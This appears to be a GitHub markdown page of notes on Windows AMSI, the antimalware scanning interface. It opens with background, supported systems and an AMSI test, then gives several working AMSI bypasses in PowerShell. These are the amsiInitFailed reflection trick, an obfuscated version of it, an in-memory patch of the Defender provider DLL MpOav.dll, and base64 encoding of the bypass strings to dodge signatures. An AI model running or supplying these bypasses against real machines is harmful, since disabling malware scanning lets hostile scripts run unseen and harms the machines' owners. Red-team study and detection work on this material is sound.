



# AMSI (Anti-Malware Scanning Interface)


Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)


Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```



Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

```powershell
$APIs = @"
using System;
using System.Runtime.InteropServices;
public class APIs {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ekwiam, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $APIs

$wzys = "0xB8"
$coxo = "0x57"
$hxuu = "0x00"
$eqhh = "0x07"
$paej = "0x80"
$ppiy = "0xC3"
$Patch = [Byte[]] ($wzys,$coxo,$hxuu,$eqhh,+$paej,+$ppiy)

$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls')
$Uninitialize = $object.GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null) 
```

https://youtu.be/QO_1UMaiWHk?si=C__eVWkAyj2jsBo-&t=6403

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```



Let's base64 encode some strings

String1 = System.Management.Automation.AmsiUtils
String2 = amsiInitFailed

```powershell
$b64String1 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("System.Management.Automation.AmsiUtils"))
$b64String2 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("amsiInitFailed"))
```

> ***String1 =>*** UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA==
> ***String2 =>*** YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==

